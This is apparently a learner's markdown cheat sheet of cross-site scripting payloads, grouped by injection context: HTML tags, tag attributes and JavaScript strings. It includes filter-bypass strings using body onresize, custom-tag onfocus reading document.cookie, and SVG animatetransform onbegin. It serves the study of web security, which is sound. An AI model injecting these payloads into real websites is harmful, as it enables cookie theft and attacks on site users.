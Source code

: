 # basic attack

#apprentice 
#### reflected
in [[cause & sinks#reflected|this]] case: 
> https://insecure-website.com/search?term=`<script>alert(1)</script>`
#### stored
in [[cause & sinks#stored|this]] case:
> comment=`<script>alert(1)</script>`
#### DOM-based
in [[cause & sinks#DOM-based|this]] case
> `"><svg onload=alert(1)>`

# contexts
## between HTML tags
##### most tags and attributes blocked
`<>` -> `<§§>` -> body tag accepted ->`<body%20§§=1>` -> `onresize` accepted -> `<iframe src="https://vulnerable-website.com/?search="><body onresize=print()>" onload=this.style.width='100px'>`
##### all tags and attributes blocked except custom ones
`<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x'`
##### some SVG markup allowed
`<>` -> `<§§>` -> `<svg>`, `<animatetransform>`, `<title>`,`<image>` accepted-> `<svg><animatetransform%20§§=1>` -> `onbegin` accepted-> `"><svg><animatetransform onbegin=alert(1)>`
## in HTML tag attributes

- **close the tag** ->  `"><script>alert(1)</script>`
- **same tag** -> **new attribute** ->
	- `" autofocus onfocus=alert(1) x="` (`x="` to gracefully repair the following markup
	- `"onmouseover="alert(1)`
- **same tag** -> **same attribute** 
	 - `<a href="javascript:alert(1)">`
	 - hidden input -> `https://vulnerable-website.com/?'accesskey='x'onclick='alert(1)`
## XSS into JavaScript

##### Terminating the existing script 
`<script> ... var input = 'controllable data here'; ... </script>` 
- `</script><img src=1 onerror=alert(document.domain)>` (reason:HTML parsing first)
- single quote and backslash escaped -> `</script><script>alert(1)</script>`
##### Breaking out of a JavaScript string
- `'-alert(1)-'`
- `';alert(1)//`
